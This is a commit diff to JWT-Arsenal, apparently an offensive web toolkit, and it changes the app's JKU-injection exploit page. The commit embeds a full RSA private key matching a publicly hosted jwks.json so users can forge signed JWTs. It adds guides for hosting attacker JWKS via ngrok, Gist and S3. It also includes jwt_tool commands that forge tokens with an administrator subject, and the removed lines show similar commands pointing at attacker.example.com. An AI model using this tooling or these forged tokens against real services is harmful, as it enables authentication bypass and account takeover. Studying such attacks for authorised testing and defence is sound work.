

Before and after one commit to HiitCat/JWT-Arsenal, a Next.js app: page /exploit/jku-injection in a window 1280 px wide. Shown: the part 900-1852 px from the top of the page, without its empty margins (256-1279 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
fix: empty secret and jku selhost jwks.json

```diff
--- a/app/exploit/jku-injection/page.tsx
+++ b/app/exploit/jku-injection/page.tsx
@@ -11,21 +11,36 @@ import { PayloadEditor } from "@/components/jwt/PayloadEditor";
 import { InfoCallout } from "@/components/shared/InfoCallout";
 import { CodeBlock } from "@/components/shared/CodeBlock";
 import { JsonView } from "@/components/shared/JsonView";
-import { StepCard } from "@/components/shared/StepCard";
 import { JwtParts, base64UrlEncode, base64UrlEncodeBytes } from "@/lib/jwt";
 import { generateRsaKeyPair, signRs256, RsaKeyPair } from "@/lib/crypto";
 import { stripPrivateFields, buildJwksJson } from "@/lib/jwk";
 import "../../globals.css";
 import { Mono } from "@/components/shared/Mono";
 
+const HOSTED_JWKS_URL = "https://jwtarsenal.com/jwks.json";
+
+const HOSTED_PRIVATE_KEY_JWK: JsonWebKey = {
+  key_ops: ["sign"], ext: true, kty: "RSA", alg: "RS256",
+  n: "rHidgESfqG_BZfrZCRpNObC9cKVaHzUo-p_jM6yK3InsO4vjjktl2EIKFM-3symCtmNOdSfIqRZt5fOQqHsj-qRgf01Mee4zAv5zXWmwR1XxUI0_wwCgqFEgbgjxJQYVu6BVuuFVaQt3YzBxgk7LPKGzP2ezUG-s5epe5THqnG17NGzugxpYly8ztpouMdd757ivVhtFY4eR8MbOLs5IX7zMJklTZPaLDX2UooW-IqwZRQIXJn_WW9caw9L5woA3vMXrzWAkKox3iX1838cXe9J_IOZjn6frMpA4hoq6xElL6dbQNyLMedM-lsOMVt2_8Qgk2vPCxI-0lQn2oxPDJw",
+  e: "AQAB",
+  d: "DLH0JfTnK6bOPYtxXlIpTQ3NY_VH5PQsyAXs22jf78vXL6rkXRz_qiNySoXfp7hufq5goA8FniygekSraTtnMpPW5ofyESePabEBHOciqp2Q3bUH9HqfWMRf9rmBxo_kGaN7q_3aI5lMeGigck8KdrQQVaJ0eH8_4syVn5lFA66MOQ54XNI-HnApK_82n5_I215isMTlBm22KlryXa6K86uoI9XY768SPL-zRMC5F0S5FPx_R4MOyX8muRs7ATo5RxWZbkrpCvN31y54vJNrrQ8jzTvTDyheYPBVuEMTHTX-VeNH7PbMnroRgxeDNmCjrEwTGVitPO-eobbj3hmJQQ",
+  p: "61lKnnyzpyImVSAadj2ZEhn_-tNNHj8AlnJ0MVxExc06-Bs8aSFwu8xwZEkCNfdbh4cw7uuNQS_SR6bhK09ZcH6ZzvIPrq6oJR9bfL-cGDtkEh2TowHAQdO7gH2juBc9c9MpmTzd74EuPoej0c3VtVc0cCPZ74SwSE2Fyi0l7hM",
+  q: "u5rijkIfo2k9G-0V3jmHaMmEKieM4-NtRBZAG02bTqkU8V0YH-MmnBsqDpMKOg22cPX8O_iYPr9x67kSs-Q6LKOyqnKlZym3LBCkw62-uZncVkex1a-Nyf2tu2ZCiGRj9gZ1Sn5erSELuij3fKnxAdkY8EnK72VmPRWNN6iWaR0",
+  dp: "4yzs73FWBUXclJ0JjgtFn4iDZH3k2gZcrdzLNf5n0Dub6XR46s5BwLXF47fpr2gW7QrdfDLZxgvAQjPe9GyC3CkIlQ9pfefQHQ1YxWE77tQdc7MjGN0O1TvpqU0d5Qxh4FT7uZRcct1SYz-RLWswF_yWfIzOyPpfI1vZgl_0Vgs",
+  dq: "PlI-jrmCnxtXtI425ILB69p9sC9BS3cClkq58xf9zsy2a1PcrsMb0WHov7yy-gQSJkZhC18S3E1mv8LUZrQbazbaJGs_bRzbf6TrxyFRqYBmRLc-aVkPRhmifA2Fbp_C4TjV__Ao7WR769SuGlit-kovUauB4bMSmpotNl8n0DU",
+  qi: "VEUxbS2qcvXGSJfcIJ_S0lN4ZdcXecIz1msEoNU4WHdJPJ8st3_kilWdS9omPjJ-8l1mpv5-rZYuVvKCkIV8_a8XbadzDsPrrFT9y1C23ElBa9qgbakb6-WT5VEzqB5GVrmGaMn_1qZo3ybBod8t59RAOJcmFkJEwWsNGMJksxU",
+};
+
 function JkuInjectionContent() {
   const searchParams = useSearchParams();
   const [rawJwt, setRawJwt] = useState(searchParams.get("jwt") ?? "");
   const [parsed, setParsed] = useState<JwtParts | null>(null);
   const [payload, setPayload] = useState<Record<string, unknown>>({});
-  const [keypair, setKeypair] = useState<RsaKeyPair | null>(null);
+  // Start with the hosted keypair pre-loaded
+  const [keypair, setKeypair] = useState<RsaKeyPair | null>({ privateKeyJwk: HOSTED_PRIVATE_KEY_JWK } as RsaKeyPair);
+  const [isHostedKeypair, setIsHostedKeypair] = useState(true);
   const [jwksContent, setJwksContent] = useState<string | null>(null);
-  const [jkuUrl, setJkuUrl] = useState("https://attacker.example.com/jwks.json");
+  const [jkuUrl, setJkuUrl] = useState(HOSTED_JWKS_URL);
   const [generating, setGenerating] = useState(false);
   const [result, setResult] = useState<string | null>(null);
   const [error, setError] = useState<string | null>(null);
@@ -42,6 +57,7 @@ function JkuInjectionContent() {
     try {
       const kp = await generateRsaKeyPair();
       setKeypair(kp);
+      setIsHostedKeypair(false);
       const pubJwk = stripPrivateFields(kp.publicKeyJwk);
       const jwks = await buildJwksJson(pubJwk);
       setJwksContent(jwks);
@@ -113,59 +129,30 @@ function JkuInjectionContent() {
           title: "Forge",
           children: (
             <div style={{ display: "flex", flexDirection: "column", gap: "20px" }}>
-              {/* Step-by-step */}
-              <div style={{ display: "flex", flexDirection: "column", gap: "8px" }}>
-                <StepCard number={1} title="Generate keypair">
-                  Generate a fresh RSA-2048 keypair. The public key goes into your JWKS file; the private key signs the JWT.
-                </StepCard>
-                <StepCard number={2} title="Download and host jwks.json">
-                  Download the generated JWKS file and host it at a URL you control (nginx, GitHub Gist raw, ngrok, etc.).
-                </StepCard>
-                <StepCard number={3} title="Set your JWKS URL">
-                  Enter the URL where you hosted the file. This becomes the <code style={{ fontFamily: "var(--font-mono)", fontSize: "12px" }}>jku</code> claim in the forged token.
-                </StepCard>
-                <StepCard number={4} title="Forge and send">
-                  Forge the JWT pointing to your JWKS, sign with your private key, send to the target.
-                </StepCard>
-              </div>
 
-              {/* Generate button */}
-              <div
-                style={{
-                  padding: "16px",
-                  background: "var(--bg)",
-                  border: "1px solid var(--border)",
-                  borderRadius: "var(--radius)",
-                }}
-              >
+              {/* Keypair */}
+              <div style={{ padding: "16px", background: "var(--bg)", border: "1px solid var(--border)", borderRadius: "var(--radius)" }}>
                 <div style={{ display: "flex", alignItems: "center", justifyContent: "space-between", gap: "16px" }}>
                   <div>
-                    <div style={{ fontSize: "13px", fontWeight: 500, color: "var(--text)", marginBottom: keypair ? 0 : "4px" }}>
-                      {keypair ? "Keypair ready ✓" : "Step 1: Generate RSA-2048 Keypair"}
+                    <div style={{ fontSize: "13px", fontWeight: 500, color: "var(--text)", marginBottom: "4px" }}>
+                      {isHostedKeypair ? "Using hosted keypair ✓" : "Custom keypair ready ✓"}
                     </div>
-                    {!keypair && (
-                      <p style={{ fontSize: "13px", color: "var(--text-muted)", margin: 0 }}>
-                        Generate an RSA-2048 keypair - the JWKS will be available for download.
-                      </p>
-                    )}
+                    <p style={{ fontSize: "13px", color: "var(--text-muted)", margin: 0 }}>
+                      {isHostedKeypair
+                        ? "The private key matching jwtarsenal.com/jwks.json is pre-loaded. Generate your own if you need to host elsewhere."
+                        : "Download the JWKS and host it at the URL below before forging."}
+                    </p>
                   </div>
                   <div style={{ display: "flex", gap: "8px", flexShrink: 0 }}>
-                    {keypair && (
+                    {!isHostedKeypair && jwksContent && (
                       <button
                         onClick={downloadJwks}
                         style={{
-                          display: "flex",
-                          alignItems: "center",
-                          gap: "6px",
-                          height: "36px",
-                          padding: "0 12px",
-                          background: "var(--success-tint)",
-                          border: "1px solid var(--success-border)",
-                          borderRadius: "var(--radius)",
-                          color: "var(--success)",
-                          cursor: "pointer",
-                          fontSize: "13px",
-                          fontWeight: 500,
+                          display: "flex", alignItems: "center", gap: "6px",
+                          height: "36px", padding: "0 12px",
+                          background: "var(--success-tint)", border: "1px solid var(--success-border)",
+                          borderRadius: "var(--radius)", color: "var(--success)",
+                          cursor: "pointer", fontSize: "13px", fontWeight: 500,
                         }}
                       >
                         <Download size={13} /> Download jwks.json
@@ -175,31 +162,24 @@ function JkuInjectionContent() {
                       onClick={generateKeypair}
                       disabled={generating}
                       style={{
-                        height: "36px",
-                        padding: "0 16px",
-                        background: "var(--accent-tint)",
-                        border: "1px solid var(--accent-border-mid)",
-                        borderRadius: "var(--radius)",
-                        color: "var(--accent)",
+                        height: "36px", padding: "0 16px",
+                        background: "var(--accent-tint)", border: "1px solid var(--accent-border-mid)",
+                        borderRadius: "var(--radius)", color: "var(--accent)",
                         cursor: generating ? "not-allowed" : "pointer",
                         opacity: generating ? 0.5 : 1,
-                        fontSize: "13px",
-                        fontWeight: 500,
+                        fontSize: "13px", fontWeight: 500,
                       }}
                     >
-                      {generating ? "Generating..." : keypair ? "Regenerate" : "Generate Keypair"}
+                      {generating ? "Generating..." : "Generate custom keypair"}
                     </button>
                   </div>
                 </div>
-                {jwksContent && (
+                {!isHostedKeypair && jwksContent && (
                   <div style={{ marginTop: "12px" }}>
                     <div style={{ fontSize: "11px", color: "var(--text-muted)", marginBottom: "4px" }}>
-                      jwks.json content (host this file at your URL):
+                      jwks.json — host this file at your URL before forging:
                     </div>
-                    <JsonView
-                      value={jwksContent}
-                      style={{ background: "var(--bg-elevated)", maxHeight: "140px", overflowY: "auto" }}
-                    />
+                    <JsonView value={jwksContent} style={{ background: "var(--bg-elevated)", maxHeight: "140px", overflowY: "auto" }} />
                   </div>
                 )}
               </div>
@@ -207,46 +187,40 @@ function JkuInjectionContent() {
               {/* JKU URL */}
               <div>
                 <label style={{ fontSize: "13px", fontWeight: 500, color: "var(--text-muted)", display: "block", marginBottom: "8px" }}>
-                  Your JWKS URL (where you hosted jwks.json)
+                  JKU URL — injected into the token header
                 </label>
                 <input
                   value={jkuUrl}
                   onChange={(e) => setJkuUrl(e.target.value)}
                   style={{
-                    width: "100%",
-                    height: "40px",
-                    padding: "0 16px",
-                    background: "var(--bg)",
-                    border: "1px solid var(--border)",
-                    borderRadius: "var(--radius)",
-                    color: "var(--text)",
-                    fontFamily: "var(--font-mono)",
-                    fontSize: "13px",
-                    outline: "none",
+                    width: "100%", height: "40px", padding: "0 16px",
+                    background: "var(--bg)", border: "1px solid var(--border)",
+                    borderRadius: "var(--radius)", color: "var(--text)",
+                    fontFamily: "var(--font-mono)", fontSize: "13px", outline: "none",
                   }}
                 />
+                {isHostedKeypair && jkuUrl !== HOSTED_JWKS_URL && (
+                  <p style={{ fontSize: "12px", color: "var(--danger)", margin: "4px 0 0" }}>
+                    URL changed — generate a custom keypair and host its JWKS at this URL, or reset to jwtarsenal.com/jwks.json.
+                  </p>
+                )}
               </div>
 
               <JwtInput value={rawJwt} onChange={setRawJwt} onParsed={handleParsed} label="Original JWT" />
 
-              {parsed && keypair && (
+              {parsed && (
                 <>
                   <PayloadEditor key={rawJwt} initialValue={payload} onChange={setPayload} label="Edit Payload" />
                   <button
                     onClick={forge}
                     disabled={signing || !jkuUrl}
                     style={{
-                      height: "40px",
-                      padding: "0 16px",
-                      background: "var(--accent)",
-                      color: "#fff",
-                      border: "none",
-                      borderRadius: "var(--radius)",
+                      height: "40px", padding: "0 16px",
+                      background: "var(--accent)", color: "#fff",
+                      border: "none", borderRadius: "var(--radius)",
                       cursor: signing || !jkuUrl ? "not-allowed" : "pointer",
                       opacity: signing || !jkuUrl ? 0.5 : 1,
-                      fontSize: "14px",
-                      fontWeight: 500,
-                      alignSelf: "flex-start",
+                      fontSize: "14px", fontWeight: 500, alignSelf: "flex-start",
                     }}
                   >
                     {signing ? "Signing..." : "Forge with JKU"}
@@ -255,33 +229,68 @@ function JkuInjectionContent() {
                   {result && <JwtOutput token={result} label="Forged JWT (JKU injected)" />}
                 </>
               )}
-              {(!rawJwt || !keypair) && (
-                <InfoCallout variant="warning">
-                  {!keypair ? "Generate a keypair first, then paste the JWT." : "Paste the original JWT to continue."}
-                </InfoCallout>
+              {!rawJwt && (
+                <InfoCallout variant="warning">Paste the original JWT to continue.</InfoCallout>
               )}
             </div>
           ),
         },
         {
           number: 3,
-          title: "Equivalent CLI Commands",
+          title: "Hosting your own JWKS",
           children: (
             <div style={{ display: "flex", flexDirection: "column", gap: "12px" }}>
+              <p style={{ fontSize: "14px", color: "var(--text-muted)", lineHeight: 1.7, margin: 0 }}>
+                If the target filters or whitelists the <Mono>jku</Mono> domain, you need to host the JWKS yourself. Generate a custom keypair above, download <Mono>jwks.json</Mono>, then use one of the methods below.
+              </p>
               <CodeBlock
                 language="bash"
-                label="jwt_tool"
-                code={`# JKU injection - generate keypair and set attacker JWKS URL:\npython3 jwt_tool.py <JWT> -X s -ju https://attacker.example.com/jwks.json\n\n# Tamper claims before injecting:\npython3 jwt_tool.py <JWT> -X s -ju https://attacker.example.com/jwks.json -I -pc sub -pv admin`}
+                label="Python HTTP server + ngrok (quickest)"
+                code={`# 1. Serve jwks.json from the directory where it's saved:
+python3 -m http.server 8080
+
+# 2. In a second terminal, expose it publicly:
+ngrok http 8080
+
+# ngrok gives you a URL like https://a1b2c3.ngrok.io
+# Use https://a1b2c3.ngrok.io/jwks.json as the jku value`}
               />
               <CodeBlock
                 language="bash"
-                label="Host JWKS with ngrok"
-                code={`# Serve jwks.json locally:\ncd /path/to/dir && python3 -m http.server 8080\n\n# Expose publicly with ngrok:\nngrok http 8080\n# Use the ngrok URL as your jku value`}
+                label="GitHub Gist (no server, permanent URL)"
+                code={`# 1. Go to gist.github.com
+# 2. Create a new Gist, paste your jwks.json content, filename: jwks.json
+# 3. Click "Create public gist"
+# 4. Click the "Raw" button — copy that URL (it looks like):
+#    https://gist.githubusercontent.com/<user>/<id>/raw/jwks.json
+# 5. Use that raw URL directly as the jku value
+
+# Note: the URL changes on each edit — always use the /raw/ link without a commit hash
+# to get the latest version automatically.`}
               />
               <CodeBlock
                 language="bash"
-                label="GitHub Gist (no server needed)"
-                code={`# 1. Create a Gist with your jwks.json content at gist.github.com\n# 2. Click "Raw" to get the direct URL (no redirects)\n# 3. Use that raw URL as the jku value in the forged JWT`}
+                label="Cloudflare R2 / S3 bucket (reliable, CORS-friendly)"
+                code={`# Upload jwks.json to any public object storage bucket
+# Set Content-Type: application/json
+# Make the object publicly readable
+
+# AWS S3:
+aws s3 cp jwks.json s3://your-bucket/jwks.json --acl public-read \\
+  --content-type application/json
+
+# The public URL will be:
+# https://your-bucket.s3.amazonaws.com/jwks.json`}
+              />
+              <CodeBlock
+                language="bash"
+                label="jwt_tool (generates keypair + hosts automatically)"
+                code={`# jwt_tool handles keypair generation and signs in one command:
+python3 jwt_tool.py <JWT> -X s -ju https://your-host.com/jwks.json
+
+# Tamper payload claims at the same time:
+python3 jwt_tool.py <JWT> -X s -ju https://your-host.com/jwks.json \\
+  -I -pc sub -pv administrator`}
               />
             </div>
           ),
--- a/lib/crypto.ts
+++ b/lib/crypto.ts
@@ -37,9 +37,13 @@ export async function generateRsaKeyPair(): Promise<RsaKeyPair> {
 }
 
 export async function signHmacSha256(data: string, keyBytes: Uint8Array): Promise<Uint8Array> {
+  // WebCrypto rejects empty keys; HMAC pads keys shorter than block size with zeros (64 bytes for SHA-256)
+  const keyData = keyBytes.byteLength === 0
+    ? new Uint8Array(64).buffer
+    : keyBytes.buffer.slice(keyBytes.byteOffset, keyBytes.byteOffset + keyBytes.byteLength) as ArrayBuffer;
   const key = await crypto.subtle.importKey(
     "raw",
-    keyBytes.buffer.slice(keyBytes.byteOffset, keyBytes.byteOffset + keyBytes.byteLength) as ArrayBuffer,
+    keyData,
     { name: "HMAC", hash: "SHA-256" },
     false,
     ["sign"]
@@ -207,10 +211,9 @@ export async function verifyHmacSignature(
   if (alg === "HS384") hashAlg = "SHA-384";
   if (alg === "HS512") hashAlg = "SHA-512";
 
-  const keyMaterial = secretBytes.buffer.slice(
-    secretBytes.byteOffset,
-    secretBytes.byteOffset + secretBytes.byteLength
-  ) as ArrayBuffer;
+  const keyMaterial = secretBytes.byteLength === 0
+    ? new Uint8Array(64).buffer
+    : secretBytes.buffer.slice(secretBytes.byteOffset, secretBytes.byteOffset + secretBytes.byteLength) as ArrayBuffer;
 
   const key = await crypto.subtle.importKey(
     "raw",
--- /dev/null
+++ b/public/jwks.json
@@ -0,0 +1,12 @@
+{
+  "keys": [
+    {
+      "kty": "RSA",
+      "use": "sig",
+      "alg": "RS256",
+      "kid": "jwt-arsenal-1",
+      "n": "rHidgESfqG_BZfrZCRpNObC9cKVaHzUo-p_jM6yK3InsO4vjjktl2EIKFM-3symCtmNOdSfIqRZt5fOQqHsj-qRgf01Mee4zAv5zXWmwR1XxUI0_wwCgqFEgbgjxJQYVu6BVuuFVaQt3YzBxgk7LPKGzP2ezUG-s5epe5THqnG17NGzugxpYly8ztpouMdd757ivVhtFY4eR8MbOLs5IX7zMJklTZPaLDX2UooW-IqwZRQIXJn_WW9caw9L5woA3vMXrzWAkKox3iX1838cXe9J_IOZjn6frMpA4hoq6xElL6dbQNyLMedM-lsOMVt2_8Qgk2vPCxI-0lQn2oxPDJw",
+      "e": "AQAB"
+    }
+  ]
+}
```
Also changed, not shown: app/exploit/kid-injection/page.tsx (+15 -9 lines).
